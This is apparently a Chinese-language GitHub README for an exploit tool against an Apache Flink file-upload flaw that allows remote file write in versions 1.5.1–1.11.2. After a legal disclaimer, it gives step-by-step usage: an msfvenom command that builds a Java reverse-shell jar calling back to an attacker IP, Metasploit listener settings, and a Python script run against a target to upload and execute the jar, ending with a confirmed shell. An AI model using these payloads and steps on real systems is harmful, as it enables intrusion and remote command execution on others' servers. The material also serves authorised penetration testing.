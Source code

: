 # Apache-flink-fileupload-getshell
Apache-Flink


# 免责声明
使用本程序请自觉遵守当地法律法规，出现一切后果均与作者无关。

本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!

严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!

由于用户滥用造成的一切后果与作者无关。

切勿用于非法用途，非法使用造成的一切后果由自己承担，与作者无关。

### 背景介绍
```
Apache Flink是一个面向数据流处理和批量数据处理的可分布式的开源计算框架。它可以用来做批处理，即处理静态的数据集、历史的数据集；也可以用来做流处理，即实时地处理一些实时数据流，实时地产生数据的结果；也可以用来做一些基于事件的应用；该漏洞允许攻击者利用REST API，并通过精心构造的HTTP Header，实现远程文件写入。

影响版本：Apache Flink: 1.5.1 —— 1.11.2
```


### 食用方法

首先需要使用msf生成一个jar包的攻击载荷
```
msfvenom -p java/shell_reverse_tcp lhost=192.168.99.5 lport=4444 -f jar > exp.jar
```

![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/24e8e86b-571b-4670-bae1-83eb89b204e5)


将攻击载荷`exp.jar`放入到python脚本的同级目录下

注：在脚本中攻击载荷的名字写死了为`exp.jar`，使用者可以随意更换

攻击载荷生成完成后，在msf上建立监听接受反弹的shell

```
use exploit/multi/handler

set payload java/shell/reverse_tcp

set LHOST 0.0.0.0

set LPORT 4444

exploit
```
![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/63d6b1f9-45ba-4a3b-91ee-d3319c0e361a)


随后执行python脚本
```
 python .\apache_flink文件上传getshell.py -u http://192.168.99.7:8081
```
![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/a1d2474c-78e7-4554-ab65-f9b9f1fa7b6e)


脚本会返回apache-flink的版本信息，若存在漏洞则会上传`exp.jar`包，成功上传后会返回jar包落地的文件名，并且会执行该jar包
执行完攻击载荷就可以在msf上看是否反弹了shell回来

![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/8c367411-c3ce-4043-be51-fcf55629b5f8)

成功反弹shell，并且可以成功执行命令
